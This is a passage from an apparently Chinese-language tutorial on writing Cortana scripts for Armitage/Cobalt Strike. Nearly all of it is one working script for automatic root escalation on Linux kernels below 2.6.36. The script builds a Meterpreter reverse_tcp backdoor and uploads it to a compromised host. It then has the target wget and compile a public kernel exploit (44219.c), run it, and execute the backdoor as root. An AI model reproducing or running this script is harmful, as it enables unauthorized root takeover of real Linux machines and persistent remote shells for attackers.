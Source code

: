 * * *

除了以上的脚本，为了方便我们还可以自己编写属于自己的Cortana脚本，编写示例在Cortana scripts里面已经有了一些，如果有兴趣，你可以看看这个：

*   [Cortana教程](http://www.fastandeasyhacking.com/download/cortana/cortana_tutorial.pdf)
*   [Cortana编写示例](http://security-is-just-an-illusion.blogspot.com/2013/11/one-day-with-cortana-script-engine.html)

比如下面是一个自动对2.6.36内核linux自动提权的脚本：

```
# Auto Rooting < 2.6.36 Menu for Cobalt Engine v0.1 
popup shell {
 if (host_os(session_host($1)) eq "Linux") {
     menu "Auto Rooting" {
           item "Auto Rooting < 2.6.36" {
               println("Auto Rooting");
                                # Generate Payload
                                $r_lport = random_port();
                                $backdoor = generate("linux/x86/meterpreter/reverse_tcp", lhost(), $r_lport, %(), "elf");
                                $handle2 = openf(">/tmp/linux_backdoor_$r_lport");
                                writeb($handle2, $backdoor);
                                closef($handle2);  

                                shell_upload($1, "/tmp/linux_backdoor_$r_lport", "/tmp/linux_backdoor_$r_lport");

                                # Launch our aux shells
                                handler("linux/x86/meterpreter/reverse_tcp", $r_lport, %(LHOST => lhost()));

                                # Rooting
                                s_cmd($1, "wget http://downloads.securityfocus.com/vulnerabilities/exploits/44219.c");
                              s_cmd($1, "gcc 44219.c -o rootme_1");
                                s_cmd($1, "chmod +x rootme_1");
                                s_cmd($1, "chmod 0777 rootme_1");
                               s_cmd($1, "./rootme_1");
                                sleep(10 * 1000);
                                s_cmd($1, "chmod +x /tmp/linux_backdoor_$r_lport");
                                s_cmd($1, "chmod 0777 /tmp/linux_backdoor_$r_lport");
                               s_cmd($1, "chown root:root /tmp/linux_backdoor_$r_lport");
                              s_cmd($1, "/tmp/linux_backdoor_$r_lport");
                              s_cmd($1, "exit");

                                db_sync();  
           }
       }
   }
}

```
